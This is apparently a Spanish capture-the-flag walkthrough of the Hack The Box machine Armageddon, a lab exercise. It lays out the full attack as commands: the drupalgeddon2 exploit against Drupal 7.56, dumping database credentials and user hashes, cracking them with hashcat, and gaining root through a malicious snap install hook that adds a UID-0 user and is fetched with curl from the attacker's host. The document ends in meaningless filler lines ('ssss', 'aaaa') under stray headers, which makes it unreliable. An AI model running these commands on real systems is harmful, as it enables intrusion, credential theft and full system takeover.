---------
- Tags: #Linux #HTB #Facil #Drupal #Mysql #Sudoers #Snap
---
# Reconocimiento
## Nmap

- Nmap
```bash
$ nmap -p- --open --min-rate 5000 -Pn -n -sS -v 10.129.48.89
```



- Nmap Script - Version
```python

```




- Whatweb
```
whatweb http://armageddon.htb
```




- Web




> Parece que estamos ante una pagina con un `CMS` `Drupal`, si vamos al `robots.txt` nos encontramos varias rutas








> Si miramos el `Changelog.txt` veremos la versión de `Drupal` en la que nos encontramos. `7.56`



> Buscamos pro la versión de `Drupal` y encontramos una aplicación llamada `drupalgeddon2`, la cual nos permite obtener una `shell`, vamos a descargarla y ejecutarla.

```
https://github.com/dreadlocked/drupalgeddon2
```
# DRUPAL
- Ejecutamos
```
$ ./drupalgeddon2.rb http://armageddon.htb
```



> Obtenemos una `shell` con el usuario `apache` vamos a listar usuarios del sistema

```
$ ls -la /home
$ cat /etc/passwd | grep "sh"
```




> Nos interesa el usuario `brucetherealadmin`, vamos a intentar encontrar alguna clave, si miramos puertos abiertos internamente, esta el puerto `3306` abierto, asique vamos a buscar credenciales para la base de datos

## Druppalgeddon
```
$ netstat -tunl
```



> En `drupal` las credenciales de base de datos se guardan en `sites/default/settings.php`

```
$ cat sites/default/settings.php
```



```
user: drupaluser
pass: CQHEy@9M*m23gBVj
```

- Listamos bases de datos
```
$ mysql -u drupaluser -p'CQHEy@9M*m23gBVj' -e 'show databases;'
```



- Listamos tablas
```
$ mysql -u drupaluser -p'CQHEy@9M*m23gBVj' -e 'use drupal; show tables;'
```



- Seleccionamos `users`
```
$ mysql -u drupaluser -p'CQHEy@9M*m23gBVj' -e 'use drupal; select * from users;'
```



```
$S$DgL2gjv6ZtxBo6CdqZEyJuBphBmrCqIV6W97.oOsUf1xAhaadURt
```

> Encontramos la contraseña `hasheada` del usuario que nos interesa, esta encriptada en `SHA512`, vamos a utilizar `hashcat` para `crackearla`

```
$ hashcat -m 7900 hash.txt /usr/share/wordlists/rockyou.txt
```
## AA


> Ya tenemos la contraseña del usuario vamos a probar a conectarnos por `ssh`

```
user: brucetherealadmin
pass: booboo
```



> Una vez dentro del usuario, listamos `sudoers`

```
$ sudo -l
```



> Tenemos permisos `sudo` para ejecutar `snap`, si vamos a `GTFOBins` podemos comprobar como creando un paquete falso podríamos inyectar comando que se ejecutaría como `sudo`.

```
https://gtfobins.org/gtfobins/snap/
```



- Creamos el paquete en nuestra maquina de `snap`, intente añadir permisos `SUID` a `/bin/bash` pero no me dejo, asique voy a añadir un usuario con privilegios de `root`
```
❯ mkdir -p meta/hooks

❯ echo -e '#!/bin/bash\n /usr/sbin/useradd -p $(openssl passwd -1 password123) -u 0 -o -s /bin/bash -m pwned' >meta/hooks/install

❯ chmod +x meta/hooks/install

❯ fpm -n test -s dir -t snap -a all meta
```

- Lo subimos a la maquina vulnerable abriendo un servidor web con `python`
```
$ python3 -m http.server 80
```
## BB
- Lo descargamos
```
$ curl http://10.10.14.154/test_1.0_all.snap -o test_1.0_all.snap
```

- Lo ejecutamos como `sudo`
```
$ sudo snap install test_1.0_all.snap --dangerous --devmode
```
# SS


- Vemos usuarios




> Nos conectamos al usuario `pwned` con contraseña `password123`



ssssssssss
sssssssssssss
ssssssssss
sssssssssss
ssssssssssssss
ssssssssssss
## ss
aaaaaaaaaaa
aaaaaaaaa
aaaaaaaaa


aa
a
a
a
a

a
a
a